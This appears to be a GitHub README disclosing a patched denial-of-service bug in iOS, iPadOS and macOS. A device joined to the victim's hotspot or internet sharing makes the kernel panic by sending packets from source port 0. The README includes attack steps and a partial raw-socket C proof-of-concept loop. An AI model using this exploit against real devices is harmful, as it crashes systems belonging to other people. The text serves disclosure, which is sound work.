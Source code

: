 # PoC for iOS, macOS, iPadOS (DoS)

**Apple has quietly fixed this in iOS(and iPadOS) 15.1 and macOS 12.0 without any kind of public acknowledgement or reward.**

**Updated: Apple only mentioned us for macOS. They don't give any more comments. ([About the security content of macOS Monterey 12.0.1](https://support.apple.com/en-us/HT212869)).**
## Issue
Kernel panic after send 2+ TCP/UDP packets by attacker device via apple device hotspot net to external network

## Steps
### iPhone, iPad
1) Switch into hotspot mode
2) Attacker connect to iPhone network
3) Attacker send 2+ TCP/UDP packet from source port 0 to different destination ports in external network.
4) Kernel panic
### iMac, Mac, MacBook
0) Require internet access on device
1) On "Internet sharing" (on Bluetooth PAN) on victim apple device
2) Bluetooth pair attacker and victim apple device
3) Attacker connect to internet via apple device
4) Attacket send 2+ TCP/UDP packet from source port 0 to different destination ports in external network.
5) Kernel panic



## Here is a short proof of concept.
We used raw sockets to form a custom package and send requests from port 0.

```с
...
    tcph->source = htons (0); //here we specify the output port 0
...
    while (1)
    {
        tcph->dest = htons (rand()); //here we specify the input port random
        if (sendto (s, datagram, iph->tot_len ,    0, (struct sockaddr *) &sin, sizeof (sin)) < 0)
        {
            perror("sendto failed");
        }
        else
        {
            printf ("Packet Send. Length : %d \n" , iph->tot_len);
        }
        sleep(1);
    }
...
```
After sending 2 packets(print "Packet Send..."), DoS is called and elf execution can be terminated.
